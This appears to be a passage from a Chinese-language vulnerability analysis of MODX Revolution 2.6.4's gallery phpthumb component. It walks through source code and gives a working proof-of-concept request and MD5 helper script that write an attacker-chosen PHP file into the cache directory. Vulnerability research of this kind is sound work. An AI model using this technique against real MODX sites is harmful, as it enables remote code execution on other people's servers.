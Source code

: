 如果没有指定`f`参数的话，就根据文件后缀将`f`赋值。也就是说，如果我们传递了`f`参数，也就可以指定任意文件后缀，此处没有任何过滤。

然后判断`src`参数是否是以`http`开头，如果不是，则把`src`拼接成完整的物理路径：`D:/phpStudy/PHPTutorial/WWW/modx-2.6.4-pl/assets/gallery/1/cover.png`

```php
/* auto-prepend base path if not a URL */
if (strpos($src, 'http') === false) {
    $basePath = $modx->getOption('base_path', null, MODX_BASE_PATH);
    if ($basePath != '/') {
        $src = str_replace(basename($basePath), '', $src);
        $src = ltrim($src, '/');
        $src = $basePath . $src;
    }
}
```

接着把`src`路径中的`:`和`/`替换成`_`，也就是`D__phpStudy_PHPTutorial_WWW_modx-2.6.4-pl_assets_gallery_1_cover.png`，这个字符串将成为最后缓存文件的文件名的前半部分。

```php
$inputSanitized = str_replace(array(':', '/'), '_', $src);
$cacheFilename = $inputSanitized;
$cacheFilename .= '.' . md5(serialize($scriptProperties));
$cacheFilename .= '.' . (!empty($ptOptions['f']) ? $ptOptions['f'] : 'png');
$cacheKey = $assetsPath . 'cache/' . $cacheFilename;
```

而文件名后半部分则是`md5(serialize($scriptProperties))`的值，把上面的array进行反序列化再MD5，最后拼接上面设置的`f`后缀，所以最后的文件名类似`D__phpStudy_PHPTutorial_WWW_modx-2.6.4-pl_assets_gallery_1_cover.png.0f0d6092657266f9718061fb8a20730d.png`，由于在实际利用中我们不知道网站物理路径，因此几乎无法猜出这个文件名。

**绕过方式就是利用`src`参数，上面代码对`src`进行了一个`http`判断，假如我们指定`src`以`http`开头，就不会拼接物理路径，而反序列化时的各个参数均是我们可以控制的，这样我们最终就能得到一个文件名类似`http.md5_string.php`的缓存文件。**

**构造PoC：**

`action=web/phpthumb&src=http&f=php&useRawIMoutput=1&config_prefer_imagemagick=0&IMresizedData=<?php phpinfo();?>`

然后写一段代码来生成反序列化数据，此处要注意参数顺序，不同顺序生成的反序列化数据不一样，最终的MD5值也就会变

```php
$target = array (
    "action"=> "web/phpthumb",
    "src"=> "http",
    "f"=> "php",
    "useRawIMoutput"=> "1",
    "config_prefer_imagemagick"=> "0",
    "IMresizedData"=> "<?php phpinfo();?>"
);
$seri = serialize($target);  
echo md5($seri);
```

最终会在缓存目录`assets/components/gallery/cache`写入文件`http.f23566b3b11f5fd29a8189b74ef53daf.php`

![1532601619133](https://blog-1252261399.cos-website.ap-beijing.myqcloud.com/images/1532601619133.png)
